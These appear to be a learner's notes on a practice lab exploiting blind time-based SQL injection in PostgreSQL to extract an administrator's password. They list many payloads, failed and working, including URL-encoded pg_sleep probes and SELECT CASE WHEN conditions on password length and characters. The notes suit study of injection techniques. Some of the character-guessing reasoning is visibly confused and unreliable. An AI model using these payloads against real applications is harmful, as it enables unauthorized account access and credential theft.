 # The Lab
# Goal: Log in as Admin

# Preliminary Work
- Given: no different responses for errors or no rows or custom welcome messages returned
    - thus, conditional error payloads are not applicable
- Do conditional payloads with time delays

# Conditional Time Delay Exploitation
- Testing version of SQL with unconditional time delays
    - PostgreSQL: fake'||pg_sleep(10)-- (:white_check_mark:)
- Testing conditional time delays
    - PostgreSQL: fake'||SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
        - Loads normally? (:white_check_mark:)
    - Delays?
        - fake'||SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (:x:)
        - fake'||SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake'||SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake'+SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake'+SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - Looked at solution
            - Completely forgot about URL encoding lol
                - Imagine people actually santizing input lol
            - fake'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:white_check_mark:)
                - %3B = semicolon
                - Had good idea with plus signs
- Using conditional time delays to extract password characters

# Extracting Information
- Trying: fake'%3BIF+(SELECT+COUNT(username)+FROM+users+WHERE+username+=+'administrator'+AND+SUBSTRING(password,1,1)+>+'m')+=+1+THEN+pg_sleep(10)+ELSE+pg_sleep(0)-- (:x:)
    - Testing to see if the expression is true? (evaluates to 1) <-- PLEASE INVESTIGATE
    - Reminders:
        - Indexing begins from 1
        - First # is index
        - Second # is number of characters after first index to include
- Subsequent Attempts:
    - Replacing %3B with ||
    - Removing plus signs
    - Did not try changing comment characters cuz fake'||pg_sleep(10)-- works
- Looked at solution -> need to change syntax drastically lol
    - Put 'FROM users' at end of statement before comments
    - Replace 'SELECT COUNT' with 'SELECT CASE WHEN'
    - They use 'LENGTH(password)' to get length before spamming with guesses
        - Better strat than mine lol
    - Put 'END' when done with if statement
    - Removed '= 1' at end of if statment condition
    - Removed IF statement entirely
        - Using SELECT CASE WHEN
- Reformulating...
- New payload attempt: fake'%3BSELECT+CASE+WHEN+(username+=+'administrator'+AND+LENGTH(password)+>+1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- (:white_check_mark)
    - IT WORKS!!! -> need to continue testing for length
    - Greater than 10
    - Less than or equal to 20
    - Greater than 15
    - Greater than 17
    - Either 18, 19, or 20
        - Not 18
        - Not 19
        - Yes 20! (:white_check_mark)
            - Payload: fake'%3BSELECT+CASE+WHEN+(username+=+'administrator'+AND+LENGTH(password)+=+20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
            - Only 1 equal sign (not usual ==)
    - Password is 20 (will need to use a LOT of payloads since I am doing it manually)
- Payload for letter equality: fake'%3BSELECT+CASE+WHEN+(username+=+'administrator'+AND+SUBSTRING(password,1,1)+>+'m')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
    - Having ASCII Chart is nice ![ASCII Chart](./ASCII_Chart.jpg)
    - Letter 1: v
        - Greater than 'm' (:white_check_mark:)
            - Greater than 'M'
            - Greater than 'G'
            - Greater than 'D'
            - Either 'A','B','C'
                - Not 'A'
                - Not 'B'
                - Not 'C'
            - Thus, not a letter
            - Try numbers next
                - Greater than '5'
                - Greater than '2'
                - Not '1'
            - Try other symbols before numbers and after whitespace characters
                - Greater than ')'
                - Greater than '$'
                - Greater than '"'
                - Not !
            - IDK WHAT IS HAPPENING LOL
                - At least some delays are happening though :)
            - I said "greater than 'm'" then did values less then 'm' LMAO
        - Greater than or equal to 'v' (:white_check_mark:)
        - Greater than 'v' (:x:)
        - Equal to 'v' (:white_check_mark:)
    - Letter 2: 
        - Greater than 'm' (:x:)
        - Greater than 'M' (:x:)
        - Greater than 'K' (:x:)
        - Greater than 'D' (:x:)
        - Greater than 'A' (:x:)
        - Greater than '0' (:white_check_mark:)
            - The number Zero
        - Greater than '9' (:white_check_mark:)
            - Thus, not a number
        - Equal to ':', '<', '>', '=', '?', '@' (:x:)
            - Based on data, it should be ';', but I need escape character for it to not break the string lol
            - Trying to use a roundabout way
        - Tried URL encoding %3B but no work :(
        - Greater than ':' (:white_check_mark:)
        - Less than '<' (:x:)
        - NVM lol, just doing greater that stuff again
        - Greater than ':' (:white_check_mark:)
        - Greater than '<' (:white_check_mark:)
        - Greater than '=' (:white_check_mark:)
        - Greater than '?' (:white_check_mark:)
        - Equal to 'A' (:x:)
        - Greater than '@' (:white_check_mark:)
        - Greater than '@' and Less than 'A'

        - IDK LMAO

        


# Observations
- '||' concantenation works for unconditional time delays ONLY
- Might try the URL encoded semicolon on previous labs that I could not solve
- Stop trying to copy paste syntax from lessons
    - Figure out what you want to do and look up proper SQL syntax
    - Still learn strats from lessons, but apply syntax from own research
    - SQL cheat sheet might not be as helpful as it sounds
- Getting 504 Response = Timeout -> try opening new lab

